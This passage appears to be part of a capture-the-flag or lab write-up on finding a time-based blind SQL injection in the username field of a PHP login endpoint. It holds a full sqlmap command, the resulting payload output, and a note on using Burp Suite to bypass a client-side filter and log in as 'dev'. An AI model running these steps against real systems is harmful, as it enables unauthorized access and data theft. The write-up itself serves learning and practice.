 ## First SQLi (access to "dev" dashboard)

The request at `functions.php` is shown in the figure below; the first attempts with `sqlmap` failed because I made a direct request to the endpoint or because I tested the "password" parameter, however some trials I got a **Time-Based SQLi**.

<img src="./screens/1_functions_login_request.PNG">

```
sqlmap \
    -u http://$TARGET/functions.php \
    --data="username=somemail%40gmail.com&password=123456&function=login" \
    -p "username" \
    --method=POST \
    --cookie="PHPSESSID=ooi4eckq3k748ed6ed2f6m0bhv" \
    --headers="User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0, Referer: http://$TARGET/login.php" \
    --level=4

...
sqlmap identified the following injection point(s) with a total of 1754 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=somemail@gmail.com' RLIKE SLEEP(5)-- zljr&password=123456&function=login
---
[19:01:49] [INFO] the back-end DBMS is MySQL
```

Since the payload can't be directly inserted into the form, we can use Burp Suite to intercept the request, bypass the client-side filter, and gain access as 'dev'.

<img src="./screens/2_dev_sqli_intercept.PNG">